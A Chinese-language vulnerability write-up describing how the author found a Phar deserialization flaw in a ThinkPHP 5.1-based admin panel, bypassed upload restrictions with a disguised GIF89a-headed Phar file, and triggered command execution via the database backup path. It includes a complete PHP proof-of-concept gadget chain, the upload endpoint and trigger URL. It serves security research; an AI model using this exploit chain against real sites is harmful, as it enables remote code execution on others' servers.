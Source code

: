 前言
--

前端时间学习了下phar反序列化的原理，想着找个通用系统挖挖看，运气好捡到一个，便有此文记录一下捡漏过程。

前置知识
----

可以认为Phar是PHP的压缩文档。从`PHP 5.3`开始，引入了类似于JAR的一种打包文件机制。它可以把多个文件存放至同一个文件中，无需解压，PHP就可以进行访问并执行内部语句。

Phar之所以能触发反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`。而PHP在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。

常见的可以触发Phar反序列化的PHP文件系统函数如下

![image-20240624171754510](https://shs3.b.qianxin.com/butian_public/f204219f3a2e0ec559e94d291f9a4525b1dba6e519620.jpg)

寻找目标
----

由于光有反序列化触发点还是无法证明存在反序列化漏洞，还需要配合利用链才完整，加上目标网上已经有公开的链可以打，比如

[ThinkPHP5.1反序列化漏洞实现rce](https://forum.butian.net/share/2307)，所以尝试寻找使用tp5.1二开的项目来审计挖掘。

审计过程
----

github上搜寻符合我们要求的框架，下载后全局搜索诸如is\_file、is\_dir等可能存在漏洞的函数且参数可控的地方，找到这么一处

![image-20240624173019354](https://shs3.b.qianxin.com/butian_public/f8312671ddc7232c0a6b937994baa3740bc0183deb08d.jpg)

在 /application/admin/controller/Database.php 中有一个is\_dir判断，而该函数可以触发phar反序列化，由于是使用tp5.1的项目，只要上传一个tp5.1序列化的phar文件，然后控制数据库备份路径为该phar文件即可。

漏洞功能点如下

![image-20240702152111275](https://shs3.b.qianxin.com/butian_public/f260421cca8d5963310c69d6ecf39f6776d6069a011c7.jpg)

在后台系统设置-数据库 中可以设置数据库备份根路径，那么只要将此处设置为上传的phar文件的路径即可。

漏洞点位于后台，自己环境登录后，寻找上传点上传

POST /admin.php/admin/attachment/upload/dir/images/module/admin.html HTTP/1.1

![image-20240702152027146](https://shs3.b.qianxin.com/butian_public/f170116320a1d69c45827ccbff503fb2585ea384cbc31.jpg)

尝试后台的几个上传功能都失败了，分析下源码，通过调用/admin/目录下的attachment.php中的upload方法进行上传，上传接口的/dir/images/module/admin.html，分别对应dir→images, module→admin.html

![image-20240624182259243](https://shs3.b.qianxin.com/butian_public/f84172399793bbe3cd4052e03a6d738bc3dad262ad796.jpg)

发现都是通过调用savefile函数

![image-20240624182342336](https://shs3.b.qianxin.com/butian_public/f3852266bc3cf4f763b0a798e7ea3d1348730cd577893.jpg)

![image-20240624182409923](https://shs3.b.qianxin.com/butian_public/f661575a3c1cb537771ed4511f03c5aa6e2aca69169f9.jpg)

限制了文件mime、后缀名等，好在PHP在识别Phar文件时，是通过其文件头部标识`__HALT_COMPILER();?>`，并且对头部标识前面的内容或后缀名没有严格要求的。  
因此可以通过添加任意的文件头并修改Phar文件后缀名的方式，将Phar文件伪装成其他格式的文件，从而绕过上传点限制。

通过如下poc生成phar文件，上传时修改为任意后缀即可

```php
<?php

namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = [$files];
        }
    }
}
namespace think\model\concern {
    trait Conversion
    {    
    }
    trait Attribute
    {
        private $data;
        private $withAttr = ["lin" => "system"];
        public function get()
        {
            $this->data = ["lin" => "dir"];
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct()
        {
            $this->get();
        }
    }
}
namespace {
    $conver = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($conver);
    @unlink("phar.phar");
    $phar=new Phar("phar.phar");
    $phar->startBuffering(); 
    $phar->setStub('GIF89a'."<?php __HALT_COMPILER(); ?>"); 
    $phar->setMetadata($payload); 
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
    echo urlencode(serialize($payload));
}
?>

```

结果还是不行

![image-20240702151842040](https://shs3.b.qianxin.com/butian_public/f752010cf9bf53e6efb55abfb651b4161dd8d62ef4516.jpg)

源码里也并未发现别的过滤，转向看返回的报错信息

![image-20240702153108383](https://shs3.b.qianxin.com/butian_public/f3201627e8a7026f041a72017170055b38abaad5cf1ef.jpg)

不知道在哪儿调用了这个vendor\\topthink\\think-image\\src\\Image.php,校验了图像信息，导致上传失败

返回去搜这个$info变量，发现原来是再上传后移动文件时调用了这个检测图片正确性的代码，导致抛出异常上传不了

![image-20240702154954826](https://shs3.b.qianxin.com/butian_public/f661589bea2a52a2f29111eb997c29996d4c7512218c7.jpg)

![image-20240702155046989](https://shs3.b.qianxin.com/butian_public/f896478b4aec27de47bad2640f327e90853df877c41d0.jpg)

可以看到当dir=images时，就会向下执行\\vendor\\topthink\\think-image\\src\\Image.php中的图像正确性校验函数，导致上传失败。

因此，只能转向搜索其他上传点

![image-20240702160143739](https://shs3.b.qianxin.com/butian_public/f103014f66ed69df00813648e288aa1e7f4cc2f83a409.jpg)

发现一处通过ueditor上传附件的地方，且也是通过savefile函数去调用的

因此将原先的上传接口中的dir参数改为files即/admin.php/admin/attachment/upload/dir/files/module/admin.html即可（文件后缀也改成附件类型的zip、docx等等）

![image-20240702160316884](https://shs3.b.qianxin.com/butian_public/f996276597d3b2deb76b731157906bec2eb9d97b4d4fd.jpg)

回到后台把数据库备份路径改成上传的恶意文件地址

![image-20240702160440054](https://shs3.b.qianxin.com/butian_public/f615645a6aad67b5ae39d5b63defb4bc839060349b202.jpg)

保存后再访问调用了目标is\_dir（）函数的地址例如admin.php/admin/database/index/group/import.html，即可触发执行了poc中的dir命令

![image-20240702160743968](https://shs3.b.qianxin.com/butian_public/f614257f230fd571c10e28dc5313de6b614f09bda606c.jpg)